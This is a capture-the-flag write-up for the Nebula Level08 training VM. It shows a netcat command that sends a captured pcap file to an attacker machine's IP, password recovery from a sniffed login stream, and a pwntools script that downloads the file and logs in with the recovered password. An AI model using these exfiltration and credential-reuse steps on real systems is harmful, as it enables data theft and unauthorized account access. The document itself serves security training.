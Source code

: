 # Level08

#### Description

World readable files strike again. Check what that user was up to, and use it to log into **flag08** account.

To do this level, log in as the **level08** account with the password **level08**. Files for this level can be found in /home/flag08.

#### Solution

In flag08 account home directory, we have a packet captured file.

```bash
level08@nebula:/home/flag08$ ls -la
total 14
drwxr-x--- 2 flag08 level08   86 2012-08-19 03:07 .
drwxr-xr-x 1 root   root      80 2012-08-27 07:18 ..
-rw-r--r-- 1 flag08 flag08   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag08 flag08  3353 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 root   root    8302 2011-11-20 21:22 capture.pcap
-rw-r--r-- 1 flag08 flag08   675 2011-05-18 02:54 .profile
```

We can get this file to our attacker kali machine using netcat.

{% code title="Target Machine" %}
```bash
level08@nebula:/home/flag08$ nc 192.168.117.128 9001 < capture.pcap
```
{% endcode %}

{% code title="Attacker kali machine" %}
```bash
┌──(ghost㉿kali)-[~/nebula/level08]
└─$ nc -lvnp 9001 > capture.pcap
listening on [any] 9001 ...
connect to [192.168.117.128] from (UNKNOWN) [192.168.117.140] 60503
                                                                                                                                                 
┌──(ghost㉿kali)-[~/nebula/level08]
└─$ file capture.pcap
capture.pcap: pcap capture file, microsecond ts (little-endian) - version 2.4 (Ethernet, capture length 65535)
```
{% endcode %}

Open it in wireshark and analyze it by following tcp stream.

<figure><img src="../../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

We can see it captured a login credential for level8 user. But password is a little bit messed up here, so we can rearrange it.

<figure><img src="../../../.gitbook/assets/image (65).png" alt=""><figcaption></figcaption></figure>

Here's 7f represents to `.` We can look that into a hex table for what is the representation of 7f in hex.

<figure><img src="../../../.gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

&#x20;Ok, so 7f means DEL key was pressed. Now we can rearrange password into it's original form - `backd00Rmate`&#x20;

Now log into flag08 account.

```bash
level08@nebula:~$ su flag08
Password: 
sh-4.2$ id
uid=991(flag08) gid=991(flag08) groups=991(flag08)
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

#### Python Automation

```python
from pwn import *
from sys import argv, exit

# Check if IP address is provided as an argument
if len(argv) < 2:
    sys.exit("IP address not found.")

# Establishes SSH connection with target IP address
session = ssh(host=argv[1], user='level08', password='level08')

capture_file = session.download_file(remote='/home/flag08/capture.pcap', local='/home/ghost/nebula/level08/capture.pcap')
print("Successfully downloaded capture file to /home/ghost/nebula/capture.pcap")
session.close()


sh = ssh(host=argv[1], user='flag08', password='backd00Rmate')
terminal = sh.shell()
terminal.sendline("getflag")
terminal.interactive()
```

<figure><img src="../../../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>
